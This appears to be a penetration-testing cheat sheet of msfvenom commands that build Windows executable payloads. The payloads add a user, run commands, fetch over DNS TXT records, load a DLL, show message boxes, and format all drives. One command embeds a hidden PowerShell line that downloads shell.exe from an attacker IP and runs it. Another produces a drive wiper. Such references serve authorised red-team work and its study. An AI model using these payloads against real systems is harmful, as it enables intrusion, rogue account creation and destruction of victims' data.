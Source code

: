 # Exec Payloads

## 01 - Add User Windows Exec Payload

### 1.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/adduser user=<username> pass=Password1234! wmic=[true | false] custom=<group_name>
```

## 02 - DNS TXT Query Exec Windows Payload

### 2.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/dns_txt_query_exec dnszone=<domain.com> -f exe -o dns-query-x86.exe
```

## 03 - Execute Windows Exec Payload

### 3.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/exec cmd=<commands> -f exe -o exec-x86.exe
```

### 3.2 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/exec cmd=<commands> -f exe -o exec-x64.exe

$ msfvenom -p windows/x64/exec cmd="powershell.exe -w hidden -noni -nop -c \"IEX (new-object net.webclient).downloadfile('http://<IP>:<PORT>/shell.exe', 'C:\Windows\Temp\shell.exe');start-process C:\Windows\Temp\shell.exe\"" -f exe -o exec-x64.exe
```

## 04 - Text-To-Speech Windows Exec Payload

```
$ msfvenom -p windows/speak_pwned -f exe -o speak-x86.exe
```

## 05 - Format All Drives Windows Exec Payload

```
$ msfvenom -p windows/format_all_drives volumelabel=<label> -f exe -o wiper-x86.exe
```

## 06 - Messagebox Windows Exec Payload

### 6.1 - x86 (32-bit) Payloads

`$ msfvenom -p windows/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x86.exe`

### 6.2 - x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x64.exe`

## 07 - LoadLibrary Windows Exec Payload

### 7.1 - x86 (32-bit) Payloads

`$ msfvenom -p windows/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x86.exe`

### 7.2 - x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x64.exe`